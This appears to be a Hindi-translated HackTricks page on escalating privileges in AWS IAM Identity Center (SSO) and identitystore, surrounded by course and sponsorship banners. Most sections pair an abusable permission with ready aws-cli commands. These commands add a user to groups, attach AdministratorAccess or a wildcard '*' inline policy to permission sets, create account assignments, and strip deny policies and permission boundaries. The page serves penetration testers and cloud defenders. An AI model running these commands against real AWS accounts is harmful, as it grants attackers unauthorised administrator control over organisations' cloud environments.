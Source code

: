 # AWS - SSO और identitystore Privesc

<details>

<summary><strong> AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSO के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
ध्यान दें कि **डिफ़ॉल्ट रूप से**, केवल **Management Account** से **अनुमतियां** वाले **उपयोगकर्ता** ही IAM Identity Center तक पहुंच और **नियंत्रण** कर सकते हैं।\
अन्य खातों के उपयोगकर्ता केवल तभी इसे अनुमति दे सकते हैं जब खाता एक **Delegated Adminstrator** हो।\
[अधिक जानकारी के लिए डॉक्स देखें।](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~पासवर्ड रीसेट करें~~

इस तरह के मामलों में विशेषाधिकारों को बढ़ाने का एक आसान तरीका उपयोगकर्ताओं के पासवर्ड रीसेट करने की अनुमति होना होगा। दुर्भाग्यवश, यह केवल उपयोगकर्ता को उसके पासवर्ड रीसेट करने के लिए एक ईमेल भेजने के लिए संभव है, इसलिए आपको उपयोगकर्ता के ईमेल तक पहुंच की आवश्यकता होगी।

### `identitystore:CreateGroupMembership`

इस अनुमति के साथ यह संभव है कि एक उपयोगकर्ता को एक समूह के अंदर सेट किया जाए ताकि वह समूह की सभी अनुमतियों को विरासत में प्राप्त कर सके।

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर उस Permission Set में अतिरिक्त अनुमतियाँ जोड़ सकता है जो उसके नियंत्रण में एक उपयोगकर्ता को दी गई है

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर उस Permission Set में अतिरिक्त अनुमतियाँ जोड़ सकता है जो उसके नियंत्रण में एक उपयोगकर्ता को दी गई है

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर उस Permission Set में अतिरिक्त अनुमतियाँ दे सकता है जो उसके नियंत्रण में एक उपयोगकर्ता को दी गई है।

{% hint style="warning" %}
इन अनुमतियों का दुरुपयोग करने के लिए आपको उस **नाम का पता होना चाहिए जो एक ग्राहक प्रबंधित नीति का है जो सभी खातों में है** जो प्रभावित होने वाले हैं।
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:CreateAccountAssignment`

इस अनुमति के साथ एक हमलावर अपने नियंत्रण वाले उपयोगकर्ता को एक खाते के लिए अनुमति सेट दे सकता है।

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
### `sso:GetRoleCredentials`

उपयोगकर्ता को आवंटित एक दिए गए रोल नाम के लिए STS अल्पकालिक प्रमाण-पत्र वापस करता है।

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

हालांकि, आपको एक एक्सेस टोकन की आवश्यकता है जिसे प्राप्त करने का तरीका मुझे नहीं पता (TODO)।

### `sso:DetachManagedPolicyFromPermissionSet`

इस अनुमति के साथ एक हमलावर निर्दिष्ट परमिशन सेट से एक AWS प्रबंधित नीति के बीच के संबंध को हटा सकता है। **एक प्रबंधित नीति (अस्वीकृति नीति) को डिटैच करके** अधिक विशेषाधिकार प्रदान करना संभव है।

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

इस अनुमति के साथ एक हमलावर निर्दिष्ट अनुमति सेट से ग्राहक प्रबंधित नीति के बीच के संबंध को हटा सकता है। **प्रबंधित नीति (अस्वीकृति नीति) को डिटैच करके** अधिक विशेषाधिकार प्रदान करना संभव है।

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
### `sso:DeleteInlinePolicyFromPermissionSet`

इस अनुमति के साथ एक हमलावर किसी परमिशन सेट से इनलाइन पॉलिसी की अनुमतियों को हटा सकता है। इनलाइन पॉलिसी (नकारात्मक पॉलिसी) को डिटैच करके **अधिक विशेषाधिकार प्रदान करना संभव है**।

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
### `sso:DeletePermissionBoundaryFromPermissionSet`

इस अनुमति के साथ एक हमलावर Permission Set से Permission Boundary को हटा सकता है। Permission Boundary से दी गई प्रतिबंधों को हटाकर **अधिक विशेषाधिकार प्रदान करना संभव है।**

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>
